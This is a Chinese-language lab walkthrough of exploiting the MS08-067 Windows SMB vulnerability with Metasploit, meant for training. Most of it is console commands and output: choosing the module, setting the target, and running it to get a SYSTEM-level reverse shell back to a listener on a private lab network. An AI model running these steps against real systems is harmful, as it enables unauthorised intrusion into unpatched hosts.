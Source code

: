 # MS08-067 实战训练

## 漏洞简介

MS08-067是2008年爆出的针对Windows系统SMB服务的漏洞，在当时可以对几乎所有Windows版本实施攻击，在2017年爆出的MS17-010威力与其类似，但是可实施的系统版本有局限性，只能对Windows7,WindowsXP,以及部分Windows2008

## 漏洞实战

这个洞真的很老了，但是不妨碍它非常的经典

首先，我们在了解到漏洞编号为MS08-067后，直接在MSF中搜索

```
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi
```

我们选中

```
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > 
```

查看需要定义的参数

```
msf6 exploit(windows/smb/ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.10.128     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```

配置处和书籍《Metasploit魔鬼训练营》中有一些出入，因为`windows/smb/ms08_067_netapi`这个exp做了更新，Windows 2003 SP0 这个target已经不是第7号了，在2020.5.15已经改成了第3号



在设置好参数后，执行攻击

```
sf6 exploit(windows/smb/ms08_067_netapi) > show options 

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.130     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.10.128     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   3   Windows 2003 SP0 Universal


msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.10.128:4444 
[*] 10.10.10.130:445 - Attempting to trigger the vulnerability...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.130
[*] Command shell session 3 opened (10.10.10.128:4444 -> 10.10.10.130:1054) at 2021-05-15 22:23:28 +0800

Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

但是我遇到了一个奇怪的问题，一开始我并不是用的`windows/shell/reverse_tcp`这个Payload，而是`windows/meterpreter/reverse_tcp`,具体原因不详，希望有知道的朋友可以告诉我

